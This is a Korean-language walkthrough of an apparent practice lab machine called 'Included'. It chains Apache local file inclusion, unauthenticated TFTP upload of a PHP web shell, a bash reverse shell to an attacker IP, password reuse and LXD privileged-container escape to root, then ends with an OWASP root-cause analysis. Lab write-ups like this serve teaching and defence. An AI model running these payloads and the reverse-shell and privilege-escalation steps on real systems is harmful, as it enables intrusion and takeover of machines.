# Included

## Overview

Apache 웹 서버의 Local File Inclusion(LFI) 취약점과 인증 없는 TFTP 서비스를 조합해 초기 접근권을 획득하고, LXD 컨테이너를 통해 root 권한까지 상승하는 머신이다. 각 취약점이 독립적으로 존재하는 것이 아니라 하나의 공격 체인으로 연결된다는 점이 핵심이다.

---

## Target Info

| 항목 | 내용 |
|------|------|
| 머신 이름 | Included |
| OS | Ubuntu Linux |
| IP | 10.129.22.110 |
| 난이도 | Very Easy (Tier 2) |
| 주요 취약점 | LFI, TFTP 인증 없음, .htpasswd 평문 저장, LXD 그룹 오남용 |
| 주요 기술 | Directory Traversal, PHP 웹셸, 리버스쉘, Lateral Movement, Container Escape |

---

## Enumeration

### TCP 스캔

```bash
nmap -sC -sV 10.129.22.110
```



TCP 포트는 80번만 열려 있다. Apache httpd 2.4.29 (Ubuntu)가 동작 중이다.

### UDP 스캔

TCP 스캔만으로는 공격 체인을 구성할 수 없다. TFTP는 UDP 프로토콜이므로 UDP 스캔을 별도로 실행해야 한다.

```bash
nmap -sU -sV --top-ports 50 10.129.22.110
```



69/udp에서 TFTP(Netkit tftpd or atftpd)가 실행 중임을 확인했다. TFTP는 인증이 없고 기본 저장 경로는 `/var/lib/tftpboot/`다.

### 웹 서버 분석

브라우저로 접속하면 URL이 `/?file=home.php` 형태로 리다이렉트된다. `file` 파라미터가 존재한다는 것은 LFI 가능성을 즉시 시사한다.



gobuster로 웹 루트 파일을 추가로 탐색했다.

```bash
gobuster dir -u http://10.129.22.110 -w /usr/share/wordlists/dirb/common.txt -x php,txt,html,bak,conf
```



주요 결과: `/home.php` (200), `/license.txt` (200), `.htpasswd` (403 — 직접 접근 차단되나 LFI로 우회 가능)

---

## Exploitation

### LFI 확인

`file` 파라미터에 directory traversal 페이로드를 삽입해 `/etc/passwd`를 읽는다. `../`를 4번 이상 사용하는 이유는 PHP include의 기준 경로가 불확실하기 때문이며, 리눅스에서는 루트(`/`) 이상으로 올라가지 않으므로 초과해도 무방하다.

```bash
curl "http://10.129.22.110/?file=../../../../etc/passwd"
```



`/etc/passwd` 내용이 출력됐다. 실제 사용자 `mike`(UID 1000)와 TFTP 서비스 계정(`/var/lib/tftpboot`)을 확인했다.

### .htpasswd 획득

`.htpasswd`는 Apache Basic HTTP Authentication에서 사용자명과 패스워드를 저장하는 파일이다. 웹 루트에 위치하며 LFI로 직접 읽을 수 있다.

```bash
curl "http://10.129.22.110/?file=../../../../var/www/html/.htpasswd"
```


`mike:Sheffield19` — 해시가 아닌 평문으로 저장되어 있어 즉시 사용 가능하다.

### PHP 웹셸 업로드 (TFTP)

TFTP는 인증이 없어 누구나 파일을 업로드할 수 있다. curl의 `-T` 옵션으로 TFTP 프로토콜을 통해 PHP 웹셸을 `/var/lib/tftpboot/`에 업로드한다.

```bash
echo '<?php system($_GET["cmd"]); ?>' > /tmp/shell.php
curl -T /tmp/shell.php tftp://10.129.22.110/shell.php
```



웹셸 실행 확인: LFI로 업로드된 `shell.php`를 include시켜 RCE를 달성한다.

```bash
curl "http://10.129.22.110/?file=../../../../var/lib/tftpboot/shell.php&cmd=id"
```



`uid=33(www-data)` 확인. 웹셸이 정상 동작한다.

### 리버스 쉘 획득

공격자 머신에서 nc 리스너를 열고, 웹셸을 통해 bash 리버스 쉘을 트리거한다. URL에서 `&`는 파라미터 구분자로 해석되므로 `%26`으로 인코딩해야 한다.

```bash
nc -lvnp 4444
```

```bash
curl "http://10.129.22.110/?file=../../../../var/lib/tftpboot/shell.php&cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.167/4444+0>%261'"
```



`www-data` 권한으로 리버스 쉘이 연결됐다.

### 쉘 안정화

불안정한 파이프 기반 쉘에서는 `su` 등 터미널을 요구하는 명령이 실행되지 않는다. pty로 가상 터미널을 생성해 안정화한다.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```



### Lateral Movement — mike 계정 전환

`.htpasswd`에서 획득한 패스워드를 `su` 명령으로 재사용한다. 이는 패스워드 재사용(Credential Reuse) 취약점으로 OWASP A07에 해당한다.

```bash
su mike
# Password: Sheffield19
```



---

## Privilege Escalation

### LXD 그룹 확인

mike의 그룹을 확인하면 `lxd` 그룹에 포함되어 있다. lxd 그룹 멤버는 컨테이너를 root 권한으로 실행할 수 있어 사실상 root와 동등한 권한을 갖는다.

```bash
id
# uid=1000(mike) gid=1000(mike) groups=1000(mike),108(lxd)
```

### Alpine LXD 이미지 준비

LXD 컨테이너 이미지는 tar.gz 안에 `metadata.yaml`과 `rootfs/` 디렉토리가 반드시 포함되어야 한다. Alpine Linux minirootfs는 LXD 전용 포맷이 아니므로 재패키징이 필요하다.

공격자 머신에서:

```bash
wget https://dl-cdn.alpinelinux.org/alpine/v3.17/releases/x86_64/alpine-minirootfs-3.17.0-x86_64.tar.gz
mkdir -p /tmp/lxd-work/rootfs
tar -xzf alpine-minirootfs-3.17.0-x86_64.tar.gz -C /tmp/lxd-work/rootfs
cat > /tmp/lxd-work/metadata.yaml << EOF
architecture: x86_64
creation_date: 1514764800
properties:
  description: Alpine
  os: Alpine
  release: 3.17
templates: {}
EOF
cd /tmp/lxd-work && tar -czf /tmp/alpine-lxd.tar.gz metadata.yaml rootfs
curl -T /tmp/alpine-lxd.tar.gz tftp://10.129.22.110/alpine-lxd.tar.gz
```



### 컨테이너 생성 및 호스트 파일시스템 마운트

`security.privileged=true` 옵션을 설정하면 컨테이너 내부의 root가 호스트의 실제 root와 동일한 권한을 갖는다. 호스트의 `/`를 컨테이너의 `/mnt`에 마운트하면 컨테이너 안에서 호스트 파일시스템 전체에 접근 가능하다.

```bash
cd /var/lib/tftpboot
lxc image import alpine-lxd.tar.gz --alias alpine
lxc init alpine attackvm -c security.privileged=true
lxc config device add attackvm mydev disk source=/ path=/mnt
lxc start attackvm
lxc exec attackvm /bin/sh
```








`~ #` 프롬프트는 컨테이너 내부의 root를 의미한다.

### 플래그 획득

호스트 파일시스템이 `/mnt`에 마운트되어 있으므로 호스트의 경로 앞에 `/mnt`를 붙여 접근한다.

```bash
cat /mnt/root/root.txt
cat /mnt/home/mike/user.txt
```




---

## Vulnerability Analysis

### 근본 원인

| 취약점 | 위치 | 근본 원인 | OWASP |
|--------|------|-----------|-------|
| Local File Inclusion | `/?file=` 파라미터 | 사용자 입력값을 검증 없이 `include()`에 직접 전달 | A03 Injection |
| .htpasswd 평문 저장 | `/var/www/html/.htpasswd` | 패스워드를 해시 없이 평문으로 저장 | A02 Cryptographic Failures |
| TFTP 인증 없음 | UDP 69 | TFTP 설계상 인증 메커니즘 없음, 불필요한 서비스 노출 | A05 Security Misconfiguration |
| 패스워드 재사용 | mike 계정 | 웹 인증과 시스템 계정에 동일 패스워드 사용 | A07 Auth Failures |
| LXD 그룹 오남용 | mike 계정 | 불필요한 lxd 그룹 멤버십 부여 | A01 Broken Access Control |

### 실제 환경에서의 위험성

LFI는 단독으로도 민감한 파일 노출 위험이 있지만, TFTP와 결합되면 파일 업로드 → 원격 코드 실행으로 이어진다. 특히 PXE 부팅 환경이나 레거시 네트워크 장비 관리 목적으로 TFTP를 열어둔 경우 동일한 공격이 가능하다.

LXD 권한 상승은 Docker 소켓 권한 오남용과 동일한 원리다. 컨테이너 관리 권한 자체가 root와 동등하다는 인식 없이 개발자나 운영자에게 과도한 그룹 권한을 부여하는 것이 실제 환경에서도 빈번하게 발생한다.

---

## Summary

| 단계 | 기술 | 도구 |
|------|------|------|
| 포트 스캔 | TCP/UDP 열거 | nmap |
| LFI 발견 | `/?file=` 파라미터 분석 | 브라우저, gobuster |
| 민감 파일 읽기 | Directory Traversal | curl |
| 크리덴셜 획득 | .htpasswd 평문 노출 | curl + LFI |
| 웹셸 업로드 | TFTP 인증 없음 이용 | curl |
| RCE | LFI로 웹셸 include | curl |
| 리버스 쉘 | bash TCP 리버스 쉘 | nc |
| Lateral Movement | 패스워드 재사용 | su |
| 권한 상승 | LXD privileged 컨테이너 | lxc |
| 플래그 획득 | 호스트 파일시스템 마운트 접근 | cat |
